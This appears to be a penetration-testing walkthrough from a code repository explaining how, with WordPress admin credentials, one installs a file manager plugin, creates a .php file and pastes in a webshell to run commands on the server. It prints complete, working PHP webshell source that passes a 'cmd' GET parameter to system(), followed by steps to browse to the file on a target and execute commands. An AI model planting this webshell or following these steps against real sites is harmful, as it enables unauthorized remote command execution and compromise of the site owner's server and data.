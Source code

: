 # Wordpress - Install File Management Plugin 

In case uploading a plugin was not possible for any reason related to custom wordpress configuration or web server configuration ( Maximum upload size ), you might be able to install file management plugin instead and create a new file that will contain your shell code.

## Requirements

 - A valid **username and password** of a user with **admin rights** on the Wordpress.

## Exploitation

### Accessing the dashboard

Connect with a user with administrative rights on the Wordpress at [http://TARGET/wp-login.php](http://TARGET/wp-login.php).


### Installing the plugin

- Go to "Plugin" --> "Add New" page.

![](./imgs/add_new.png)

- In the next step, type "File Manager" in the search bar and install any of those file managment plugin ( First one recommended ). Active the plugin from the same page after installing it.

![](./imgs/Installing_filemanager.png)

### Using the plugin

- On the side bar, you will find the plugin name, Navigate to its page. 

![](./imgs/plugin_page.png)


- Right click on the icon that is related to creating a new file --> Choose plain txt --> change filename extension from ```.txt``` to ```.php```

![](./imgs/creating_new_file.png)

- Select the created file --> Right click --> Navigate to the code editor.

![](./imgs/code_edit.png)


- Paste your php webshell code.


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

```

![](./imgs/paste_phpshellcode.png)

- Navigate to the main URL of your target with attaching your created filename into it [http://TARGET/NewFile.php](http://TARGET/NewFile.php)

- Execute the commands.

![](./imgs/execute_commands.png)

## References
 - https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
